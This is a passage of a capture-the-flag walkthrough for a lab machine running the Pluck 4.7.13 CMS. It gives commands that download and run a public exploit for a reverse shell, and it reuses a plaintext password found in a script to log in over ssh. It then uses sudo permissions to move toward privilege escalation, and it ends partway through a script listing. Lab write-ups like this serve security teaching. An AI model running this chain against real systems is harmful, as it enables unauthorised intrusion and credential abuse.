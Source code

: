 We can download the exploit and run it with the following command:

```python
wget https://www.exploit-db.com/download/49909 -O exploit.py
python3 ./exploit.py MACHINE_IP 80 password /app/pluck-4.7.13
```

Then, if you go to the page given in the output we will find a reverse shell.

<Image src={require("./08-exploit.png").default} />

Looking inside the file system, we find two interesting files in the /opt path. One is called test.py and the other is called getDreams.py.

While the latter is a script for a database used by the user death with the password redacted, the former is a script used to log in to Pluck with Lucien's password "HeyLucien#@1999!"

<Image src={require("./09-reverse-shell.png").default} />

We can assume that it is the same password for his account and try it with ssh.

```bash
ssh lucien@MACHINE_IP
```

It works and we are finally inside the system as Lucien and we can read the first flag.

<Image src={require("./10-lucien-flag.png").default} />


### What is the Death Flag?

A possible solution for privilige escalation can be seen by checking the permissions of the user Lucien:

```bash
sudo -l
```

<Image src={require("./11-sudo-l.png").default} />

We can see that Lucien can run the script getDreams.py as the user death without a password.

For the previous script, this is stored inside the home folder of Death and it is only executable, not readable.

If we try to run it we will see the output without any credentials error. We can suppose that in this version the password has not been redacted.

```bash
sudo -u death /opt/scripts/getDreams.py
```

The code can be obtained from the folder "/opt":

```py
import mysql.connector
import subprocess

# MySQL credentials
DB_USER = "death"
DB_PASS = "#redacted"
DB_NAME = "library"

import mysql.connector
import subprocess

def getDreams():
    try:
        # Connect to the MySQL database
        connection = mysql.connector.connect(
            host="localhost",
            user=DB_USER,
            password=DB_PASS,
```